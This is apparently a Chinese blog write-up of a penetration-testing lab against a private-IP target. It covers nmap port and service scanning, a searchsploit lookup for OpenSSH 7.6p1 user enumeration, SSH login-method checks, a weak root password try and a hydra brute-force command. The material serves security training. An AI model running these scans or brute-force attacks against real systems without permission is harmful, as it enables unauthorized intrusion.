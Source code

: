 
 <img alt="" height="178" src="https://img-blog.csdnimg.cn/558831ec33f34833bbee6ac510a71c8f.png" width="1080"/>

开放的端口-&gt;22,80 

#### 目标端口对应服务探测

> 
`1.# tcp探测`
`2.sudo nmap -sT -sV -O -sC -p22,80 192.168.151.94`
`3.`
4.`PORT STATE SERVICE VERSIO`
`5.22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 `
`6.80/tcp open http Apache httpd 2.4.29 ((Ubuntu))`


### 信息收集-端口测试

---


#### 22-SSH端口的信息收集

##### 22-SSH端口版本信息与MSF利用

通过`Nmap`探测获得SSH的版本信息，可以尝试利用<br/> 探测版本为`OpenSSH 7.6p1`

> 
`1.# 搜索对应脚本`
`2.msf6 &gt; searchsploit OpenSSH 7.6p1`


发现搜索到可利用的和用户枚举有关（待定）<img alt="" height="164" src="https://img-blog.csdnimg.cn/0c516ba16c954681942c7378c7255e13.png" width="1080"/>

22-SSH协议支持的登录方式

通过`Nmap`探测获得SSH的版本信息，在获取到某个用户名之后尝试

> 
`1.sudo ssh root@192.168.151.94 -v`


显示`publickey`、`password`就是支持密钥以及密码登录<img alt="" height="299" src="https://img-blog.csdnimg.cn/6b82485a1f784883b7a84b53db21d2b7.png" width="1080"/>

因为支持密码登录，尝试`root`账户的密码弱密码尝试

> 
`1.sudo ssh root@192.168.151.94 -p 22`
`2.# 密码尝试`
`3.password &gt; root`


弱密码尝试失败

##### 22-SSH弱口令爆破(静静等待)

因为支持密码登录，尝试`root`账户的密码爆破，利用工具`hydra`，线程-t为6

> 
`1.sudo hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.151.94 ssh -s 22`
